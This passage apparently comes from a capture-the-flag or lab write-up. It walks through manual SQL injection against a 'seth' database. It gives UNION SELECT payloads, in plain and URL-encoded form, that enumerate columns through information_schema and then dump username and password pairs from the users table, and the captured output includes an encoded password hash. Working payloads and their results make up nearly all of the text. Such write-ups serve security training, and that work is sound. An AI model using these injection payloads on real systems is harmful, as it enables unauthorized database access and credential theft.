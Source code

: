 	URL Encoded:
	"UNION+SELECT+group_concat(column_name),2,3+FROM+information_schema.columns+WHERE+table_name='users'--+-
	```
	![](images/Pasted%20image%2020220204004239.png)
	```
	Database: seth
	Table: users
	[3 Columns]
	id
	user
	pass
	position
	```
7. Determine value of columns in `users` table from `seth` database
	```
	Plain Text
	"UNION SELECT group_concat(user,':',pass),2,3 FROM seth.users -- - 
	
	URL Encoded:
	"UNION+SELECT+group_concat(user,':',pass),2,3+FROM+seth.users+--+- 
	```
	![](images/Pasted%20image%2020220204004654.png)
	```
	Database: seth
	Table: users
	[Columns: user:pass]
	ramses:YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE
	isis:--not allowed--
	```
